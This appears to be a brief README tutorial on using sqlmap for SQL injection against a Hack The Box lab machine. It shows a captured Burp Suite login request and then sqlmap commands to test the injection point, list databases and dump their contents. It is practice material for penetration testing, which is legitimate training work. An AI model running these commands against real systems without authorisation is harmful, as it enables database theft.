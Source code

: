 - [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLmap extended video tutorial](https://www.youtube.com/watch?v=2y70Yj0oSxw&ab_channel=SEGURIDADCERO)
- [SQLi Laboratory for practice](https://app.hackthebox.com/machines/446)

# Usage

## 1) Intercept the request header with burpsuite, the request should be like:
```javascript
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.11.130
DNT: 1
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=admin%40admin.com&password=admin // <--This field its the injection point
```
## 2) Create a .txt file (peticion.txt) and paste the Burpsuite request
```bash
nano peticion.txt
```
## 3) Use SQLmap with the previouse .txt file (peticion.txt example)
```bash
sqlmap -r peticion.txt
```
- Note: Sometimes SQLmap would ask if we want to add some extra parameteres.
- Note 2: You can access the output on path: /home/kali/.local/share/sqlmap/output/<target_host_name>
## 4) Detect the current databases. After this payload we should see at the output the lists of Databases
```bash
sqlmap -r peticion.txt -dbs
```
## 5) Dump the database information
```bash
sqlmap -r peticion.txt -D <name_of_database> -dump
```
